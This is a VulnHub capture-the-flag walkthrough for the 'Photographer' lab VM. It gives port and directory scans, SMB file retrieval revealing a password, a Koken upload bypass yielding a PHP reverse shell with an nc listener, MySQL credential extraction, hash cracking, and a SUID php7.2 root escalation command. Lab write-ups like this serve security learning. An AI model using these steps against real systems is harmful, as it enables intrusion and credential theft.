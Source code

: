 # VulnHub Walkthrough: 📷 Photographer

Photographer Walkthrough

### Details
* Name: Photographer ([VulnHub](https://www.vulnhub.com/entry/photographer-1,726/))


### Network Scan

```bash
# Scan ports 0-65535
nmap -A -p0-65535 192.168.1.10

# Scan all ports, enumerate HTTP, etc.
sudo nmap -sC -sV -A -O -p- -T4 -script http-enum 192.168.1.10
```

Discovered open ports:
* 80: *HTTP* 
* 139: *NetBIOS* - Samba SMB
* 445: *NetBIOS* - Samba SMB
* 8000: *HTTP* 

### HTTP directory enumeration

```bash
# Gobuster scan: Medium wordlist
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e -t 20 -u http://192.168.1.10

# Gobuster scan: Large wordlist
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -e -t 20 -u http://192.168.1.10

# Nikto scan
nikto -h http://192.168.1.10

# dirb scan
dirb http://192.168.1.10
```

### Website Exploration

Found a login page at `http://192.168.1.10:8000/admin`. 

I then noticed that the website was using a framework called *Kenko*. I was then curious to see if there was any exploits for this framework. 

```bash
searchploit kenko
```

This returned a promising exploit, which we will save for later.
```bash
searchsploit -m 48706
```

### SMB Server

```bash
# Scan SMB Server
smbmap -H 192.168.1.10 -P 445 2>&1
```

From here, we discover that the directory sambashare is available.

```bash
# Display files in 'sambashare' directory
smbmap -H 192.168.1.10 -P 445 -r sambashare -q
```

From here we can see that there is 2 files in the sambashare directory.

I found a tool called smbget that allows you to download files from a SMB server. 
```bash
# Download 'mailsent.txt'
smbget --user=192.168.1.10/guest -r smb://192.168.1.10/sambashare/mailsent.txt

# Download 'wordpress.bkp.zip'
smbget --user=192.168.1.10/guest -r smb://192.168.1.10/sambashare/wordpress.bkp.zip
```

I first looked through the `mailsent.txt` file and found several useful information. The email contained a extremely large hint for the password of a user named *daisa*.
```txt
Users/Information:
	- daisa ahomi - daisa@photographer.com | password: babygirl
	- Agi Clarence - agi@photographer.com
```

### Exploiting Kenko

Now that I had daisa's login credentials, I was able to login to the website.

Once I logged in, I was then able to use the exploit I found earlier to gain a shell on the machine.

1. On my local computer, create a file titled `image.php.jpg` containing the reverse shell code got from reshells.com (PHP PentestMonkey).

2. Start a netcat listener on my local machine: `nc -lvnp 4444`

3. Open burpsuite & capture the upload the (`image.php.jpg`).

4. Intercept the request & change the file extension to `image.php.jpg` to `image.php`.

Once you click on the file, the shell will be executed and you will have a shell on the machine. The instructions mentioned above, can also be seen in the exploit I found earlier.

### Privilege Escalation

Once I was in, I looked around the machine and found several deadends.

I first found a file called `users.txt` in the `/home/daisa` directory. This file contained the following MD5 hash: `d41d8cd98f00b204e9800998ecf8427e`.
I tried decrypting this file using john but was unsuccessful.
```bash
# Not using wordlist
john --format=raw-md5 users.txt

# Using wordlist
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt users.txt
```

I then ran `cat /etc/passwd` and found that there was a mysql server running on the machine. Through a little digging, I was able to find the credentials for the mysql server in the `/var/www/html/koken/storage/configuration/key.php` file.
```txt
/var/www/html/koken/storage/configuration/database.php
	- hostname --> localhost
	- database --> koken
	- username --> kokenuser
	- password --> user_password_here
```

I then used these credentials to login to the mysql server.
```bash
mysql -u kokenuser -puser_password_here
```

Once I was in, I lookaround but wasn't able to find anything useful.
In the koken database, I found a table called `koken_users` which contained the email and passwords for the users on the website, that being only one user, *daisa*.
```sql
SELECT email, password
FROM koken_users;
```

This then returned the following:
* email: `daisa@photographer.com`
* password: `$2a$08$ruF3jtzIEZF1JMy/osNYj.ibzEiHWYCE4qsC6P/sMBZorx2ZTSGwK`

The password however is hashed using a bcrypt algorithm. I knew this by trying to decrypt the hash using hashcat using the following command which returned a list of possible hash-modes to use:
```bash
hashcat -a 0 -O -w 3 mysql_hash.txt /usr/share/wordlists/rockyou.txt
```
I then visted a bcrypt website to help verify that the string/password "babygirl" would decrypt the hash.
However, all of this was unnecessary, but I guess it was a good learning experience.

I then ran the following command to find all the files on the machine that had the SUID bit set:
```bash
find / -perm -u=s -type f 2>/dev/null
```
From here I found an interesting bin file, `/usr/bin/php7.2`. I then went to [GTFOBins](https://gtfobins.github.io/gtfobins/php/#suid) and found that I could use this to escalate my privileges to root.
```bash
/usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```
